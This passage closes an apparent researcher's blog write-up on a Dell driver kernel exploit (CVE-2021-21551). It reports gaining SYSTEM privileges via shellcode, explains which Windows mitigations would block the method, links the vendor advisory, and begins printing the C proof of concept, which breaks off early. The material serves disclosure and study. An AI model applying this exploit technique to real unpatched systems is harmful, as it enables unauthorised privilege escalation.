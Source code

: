 <img src="{{ site.url }}{{ site.baseurl }}/images/dell80.png" alt="">

Then, after stepping through everything, we can see now that control-flow transfer has been handed off to our shellcode.

<img src="{{ site.url }}{{ site.baseurl }}/images/dell81.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/dell82.png" alt="">

From here, we can see we have successfully obtained `NT AUTHORITY\SYSTEM` privileges!

<img src="{{ site.url }}{{ site.baseurl }}/images/dellgif.gif" alt="">

"When Napoleon lay at Boulogne for a year, with his flat-bottom boats and his Grand Army, he was told by someone 'There are bitter weeds in VBS/HVCI/kCFG'"
---

Although this exploit was arduous to create, we can clearly see why data-only attacks, such as the `_SEP_TOKEN_PRIVILEGES` method outlined by Kasif are optimal. They bypass pretty much any memory corruption related mitigation.

Note that VBS/HVCI actually creates an additional security boundary for us. Page table entries, when VBS is enabled, are actually managed by a higher security boundary, virtual trust level 1 - which is the secure kernel. This means it is not possible to perform PTE manipulation as we did. Additionally, even if this were possible, HVCI is essentially Arbitrary Code Guard (ACG) in the kernel - meaning that it also isn't possible to manipulate the permissions of memory as we did. These two mitigations would also allow kCFG to be fully implemented, meaning our control-flow transfer would have also failed.

The advisory and patch for this vulnerability can be [found here](https://www.dell.com/support/kbdoc/en-us/000186019/dsa-2021-088-dell-client-platform-security-update-for-dell-driver-insufficient-access-control-vulnerability)! Please patch your systems or simply remove the driver.

Thank you again to Kasif for this original research! This was certainly a fun exercise :-). Until next time - peace, love, and positivity :-).

Here is the final POC, which can be found on my [GitHub](https://github.com/connormcgarr/Kernel-Exploits/tree/master/CVE-2021-21551):

```c
// CVE-2021-21551: Dell 'dbutil_2_3.sys' Memory Corruption
// Original research: https://labs.sentinelone.com/cve-2021-21551-hundreds-of-millions-of-dell-computers-at-risk-due-to-multiple-bios-driver-privilege-escalation-flaws/
// Author: Connor McGarr (@33y0re)

#include <stdio.h>
#include <Windows.h>
#include <Psapi.h>

// Vulnerable IOCTL
#define IOCTL_WRITE_CODE 0x9B0C1EC8
#define IOCTL_READ_CODE 0x9B0C1EC4

// Prepping call to nt!NtQueryIntervalProfile
typedef NTSTATUS(WINAPI* NtQueryIntervalProfile_t)(IN ULONG ProfileSource, OUT PULONG Interval);

// Obtain the kernel base and driver base
unsigned long long kernelBase(char name[])
{
	// Defining EnumDeviceDrivers() and GetDeviceDriverBaseNameA() parameters
	LPVOID lpImageBase[1024];
	DWORD lpcbNeeded;
	int drivers;
	char lpFileName[1024];
	unsigned long long imageBase;

	BOOL baseofDrivers = EnumDeviceDrivers(
```